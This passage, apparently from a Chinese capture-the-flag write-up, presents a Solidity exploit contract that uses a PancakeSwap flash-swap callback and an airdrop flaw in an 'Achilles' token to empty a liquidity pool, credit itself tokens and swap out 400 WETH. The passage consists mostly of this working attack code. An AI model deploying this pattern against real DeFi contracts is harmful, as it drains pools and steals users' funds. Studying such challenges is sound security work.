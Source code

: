因此我们写一个合约完成上述流程：合约里面有pancakeCall函数来设置airdropAmount，之后给池子清空Achilles，然后再给自己刷钱后从池子换出WETH。

```solidity
contract hack {
    address public wetha;
    address public paira;
    address public achillesa;
    function pancakeCall(
        address sender,
        uint amount0,
        uint amount1,
        bytes calldata data
    ) external 
    {
        IPancakePair pair = IPancakePair(msg.sender);
        address token0 = pair.token0();
        address token1 = pair.token1();
        Achilles achilles = Achilles(achillesa);
        achilles.Airdrop(1);
        IERC20(token0).transfer(msg.sender, IERC20(token0).balanceOf(address(this)));
        IERC20(token1).transfer(msg.sender, IERC20(token1).balanceOf(address(this)));

        IERC20(achillesa).transferFrom(address(uint160(uint160(address(this)) | block.number)),address(this),0);
        IERC20(achillesa).transfer(msg.sender, IERC20(achillesa).balanceOf(address(this)));
    }
    constructor(address setup)
    {
        SetUp s = SetUp(setup);
        wetha = address(s.weth());
        paira = address(s.pair());
        achillesa = address(s.achilles());
    }
    function work() public
    {
        IPancakePair pair = IPancakePair(paira);
        pair.swap(IERC20(achillesa).balanceOf(paira)-1, 0, address(this), "ndmmd");

        IERC20(achillesa).transferFrom(address(uint160(uint160(address(this)) | block.number)),address(paira),0);
        pair.sync();
        IERC20(achillesa).transferFrom(address(uint160(uint160(address(this)) | block.number)),address(this),0);
        IERC20(achillesa).transfer(paira, IERC20(achillesa).balanceOf(address(this)));
        pair.swap(0, 400 ether, address(this), "");
        IERC20(wetha).transfer(msg.sender, IERC20(wetha).balanceOf(address(this)));
    }
}
```

## Who
